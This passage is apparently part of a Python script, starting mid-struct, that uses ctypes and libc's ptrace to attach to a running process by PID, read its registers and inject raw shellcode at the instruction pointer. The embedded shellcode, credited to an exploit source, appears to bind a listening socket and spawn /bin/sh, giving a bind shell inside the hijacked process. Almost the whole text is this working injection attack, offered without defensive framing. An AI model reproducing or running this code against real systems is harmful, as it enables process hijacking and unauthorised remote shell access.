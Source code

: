 ```python
("r15", ctypes.c_ulonglong),
("r14", ctypes.c_ulonglong),
("r13", ctypes.c_ulonglong),
("r12", ctypes.c_ulonglong),
("rbp", ctypes.c_ulonglong),
("rbx", ctypes.c_ulonglong),
("r11", ctypes.c_ulonglong),
("r10", ctypes.c_ulonglong),
("r9", ctypes.c_ulonglong),
("r8", ctypes.c_ulonglong),
("rax", ctypes.c_ulonglong),
("rcx", ctypes.c_ulonglong),
("rdx", ctypes.c_ulonglong),
("rsi", ctypes.c_ulonglong),
("rdi", ctypes.c_ulonglong),
("orig_rax", ctypes.c_ulonglong),
("rip", ctypes.c_ulonglong),
("cs", ctypes.c_ulonglong),
("eflags", ctypes.c_ulonglong),
("rsp", ctypes.c_ulonglong),
("ss", ctypes.c_ulonglong),
("fs_base", ctypes.c_ulonglong),
("gs_base", ctypes.c_ulonglong),
("ds", ctypes.c_ulonglong),
("es", ctypes.c_ulonglong),
("fs", ctypes.c_ulonglong),
("gs", ctypes.c_ulonglong),
]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: " + hex(registers.rip))
print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db. https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c
shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
# Convert the byte to little endian.
shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
shellcode_byte=int(shellcode_byte_little_endian,16)

# Inject the byte.
libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

```